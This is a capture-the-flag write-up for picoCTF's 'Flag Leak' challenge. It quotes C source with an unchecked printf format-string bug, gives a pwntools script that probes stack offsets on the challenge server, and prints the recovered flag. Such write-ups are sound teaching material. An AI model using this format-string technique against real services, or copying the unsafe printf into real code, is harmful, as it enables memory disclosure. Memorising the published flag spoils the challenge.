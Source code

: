# Flag Leak

## Overview:

Category: Binary Exploitation
Points: 300

## Description

Story telling class 1/2
I'm just copying and pasting with this program. What can go wrong? You can view source here [vuln.c](./vuln.c). And connect with it using: `nc saturn.picoctf.net 57625`

## Hints

1. Format Strings

## Approach

We can identify a weakness in the source code.

Take a look at 

```c
void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}
```

and notice the `printf(story);`
We can abuse this to print values off of the stack using a format string. 
`%x$s` allows us to print the value at the x'th offset of the stack as a string.
And we know that the flag is on the stack by the readflag function.

## Attack

```c
from pwn import *

context.log_level = 'error'
print("[+] Starting script")

for i in range(60):
    #p = process("./vuln")
    p = remote("saturn.picoctf.net", 57625)
    p.sendlineafter(b'>>', b"%" + str(i).encode() + b"$s")
    response = p.recvall()
    if b'{' in response:
        print(response)
        print("[+] Answer found")
        break

```

The purpose of this [script](./script.py) is to connect to the shell and print every value up until 60 (60 should be sufficient)


```text
$ python script.py
    [+] Starting script
    b" Here's a story - \nCTF{L34k1ng_Fl4g_0ff_St4ck_999e2824}\n"
    [+] Answer found
```

Here we can see partial of the flag, and we can complete it ourselves by adding the 'pico'.

## Flag

picoCTF{L34k1ng_Fl4g_0ff_St4ck_999e2824}